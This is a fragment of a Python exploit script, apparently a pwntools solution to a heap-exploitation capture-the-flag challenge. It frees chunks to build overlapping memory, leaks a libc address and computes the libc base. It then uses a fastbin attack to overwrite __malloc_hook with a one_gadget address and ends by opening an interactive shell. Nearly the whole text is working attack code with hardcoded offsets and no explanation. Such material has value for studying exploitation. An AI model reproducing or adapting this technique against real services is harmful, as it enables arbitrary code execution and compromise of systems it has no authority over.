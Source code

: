 ```python
    delete('5')
    delete('3')
    delete('1')

    delete('a' * 0x1f0 + p64(0x4e0))

    delete('4')

    put('0x200', 0x200, 'fillup')
    put('0x200 fillup', 0x200, 'fillup again')

    libc_leak = u64(get('2')[:6].ljust(8, '\x00'))
    p.info('libc leak: 0x%x' % libc_leak)
    
    libc_base = libc_leak - 0x3c4b78

    p.info('libc_base: 0x%x' % libc_base)

    put('fastatk', 0x100, 'a' * 0x58 + p64(0x71) + p64(libc_base + libc.symbols['__malloc_hook'] - 0x10 + 5 - 8))
    put('prepare', 0x68, 'prepare data')

    one_gadget = libc_base + 0x4526a
    put('attack', 0x68, 'a' * 3 + p64(one_gadget))

    p.sendline('DEL') # malloc(8) triggers one_gadget

    p.interactive()

if __name__ == '__main__':
    main()
```

